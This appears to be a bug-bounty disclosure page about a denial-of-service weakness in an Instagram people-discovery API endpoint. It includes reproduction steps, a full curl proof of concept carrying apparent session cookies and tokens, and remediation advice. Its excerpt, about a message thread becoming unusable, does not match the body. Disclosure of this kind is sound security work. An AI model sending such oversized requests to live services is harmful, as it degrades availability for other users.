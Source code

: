 ```yaml
---
layout: single
title: Instagram - Denial of Service via Unbounded max_number_to_display Parameter AYML API
excerpt: "Denial of Service vulnerability in Instagram causing a specific message thread to become unusable. Out of scope for Meta’s bug bounty program due to available self-mitigation (e.g., deleting the thread)."
date: 2025-07-30
classes: wide
header:
  teaser: /img2/images/hackerone.png
  teaser_home_page: true
  icon: /img2/images/hackeronelogo.jpeg
categories:
  - Bug Bounty
  - Web
tags:
  - Burpsuite
  - DoS
  - API
---
```



## Summary

A POST request to the endpoint '/api/v1/discover/ayml/' on Instagram accepts a 'max_number_to_display' parameter with no apparent upper bound. By setting this parameter to an extremely large value (e.g., 9999999999), the server takes approximately 20 seconds to respond and returns a 560/566 Internal Server Error.

This behavior can be reliably reproduced and may lead to a resource exhaustion or logical Denial of Service (DoS) condition. An attacker could abuse this with minimal effort to degrade performance or stability of backend components.

## Steps to Reproduce

- Endpoint:

```
POST https://www.instagram.com/api/v1/discover/ayml/
```

- Headers (required):

```
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
```

- Request Body:

```
max_id=%5B%5D&max_number_to_display=9999999999&module=discover_people&paginate=true
```

## Observed Behavior

- The server takes ~20 seconds to respond.

- The response is a 560/566 Internal Server Error.

- The behavior is consistent and reproducible.

- Reducing the number to a reasonable value (e.g., 100) avoids the issue completely.

## Impact

- This vulnerability may allow an attacker to:

	- Generate sustained backend load with low effort.

	- Cause multiple concurrent slow requests that degrade service availability.

	- Perform a logical DoS without triggering WAFs or rate limits (assuming authenticated sessions).

- This also indicates a lack of proper input validation and resource control.

## Suggested Remediation

- Apply strict server-side validation for max_number_to_display to enforce reasonable upper bounds (e.g., max 500).

- Reject or clamp unusually high values to prevent backend overload.

- Log abuse patterns for this parameter to identify potential abuse at scale.

## Proof of Concept Script (bash)

- Proof of Concept

```bash
curl --path-as-is -i -s -k -X POST \
  -H 'Host: www.instagram.com' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate, br' \
  -H 'X-Csrftoken: o4KGwJpvN0RZ16gkpviIf86b7gHakMXU' \
  -H 'X-Instagram-Ajax: 1025186983' \
  -H 'X-Ig-App-Id: 936619743392459' \
  -H 'X-Asbd-Id: 359341' \
  -H 'X-Ig-Www-Claim: hmac.AR1AQb6TXgWPd4C48BvCGyASfCm4XqPjjOBfDXuU4qJD68p6' \
  -H 'X-Web-Session-Id: 1pl63y:afuedo:xll9x6' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H 'Origin: https://www.instagram.com' \
  -H 'Referer: https://www.instagram.com/explore/people/' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Te: trailers' \
  -b 'datr=ZmaCaHRv5mShWpLhF76V6FEY; ig_did=16BBD5A7-D00B-450E-89EA-6976AAEAA051; mid=aIJmZgAEAAHV31vsZ0qp1dURspV1; wd=1886x877; csrftoken=o4KGwJpvN0RZ16gkpviIf86b7gHakMXU; sessionid=74249493484%3A2m2JqdQLvaW7ur%3A23%3AAYdFI3BENmvs-DhTggtIVqaMG9eMpWfriBiFPCuNrQ; ds_user_id=74249493484; rur="CLN\05474249493484\0541785089902:01fe120fbf1aa61b7a70f4c73f65ec48549c7b7b91f966037a7303075102815021a6fded"' \
  --data-binary 'max_id=%5B%5D&max_number_to_display=9999999999&module=discover_people&paginate=true&jazoest=22745' \
  'https://www.instagram.com/api/v1/discover/ayml/' \
  -w '\nTotal time: %{time_total} seconds\n'
```

- Output 

![](/img2/Pasted%20image%2020250726235839.png)


## Proof of Concept BurpSuite

![](/img2/Pasted%20image%2020250729185334.png)

![](/img2/Pasted%20image%2020250729185456.png)
